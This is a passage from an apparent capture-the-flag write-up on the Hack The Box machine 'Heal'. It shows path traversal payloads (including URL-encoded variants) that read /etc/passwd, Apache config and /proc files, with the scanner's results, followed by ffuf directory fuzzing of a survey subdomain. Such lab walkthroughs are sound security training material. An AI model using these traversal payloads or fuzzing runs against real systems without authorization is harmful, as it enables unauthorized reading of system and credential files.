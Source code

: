 ```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 608ms]
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228, Duration: 2100ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 2102ms]
/etc/rpc                [Status: 200, Size: 887, Words: 36, Lines: 41, Duration: 2098ms]
/proc/meminfo           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2095ms]
```

There we go, another thing I found while creating an account is there's a survey section in our profile:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250311164853.png)

If we click it, we are redirected to another subdomain:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250311164915.png)

Let's add it and try to fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://take-survey.heal.htb/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://take-survey.heal.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 75816, Words: 32809, Lines: 1086, Duration: 328ms]
optin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2146ms]
responses               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2142ms]
```

We get two, `optin` and `responses`, if we try going into `responses`, we are redirected into another site:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250311165040.png)
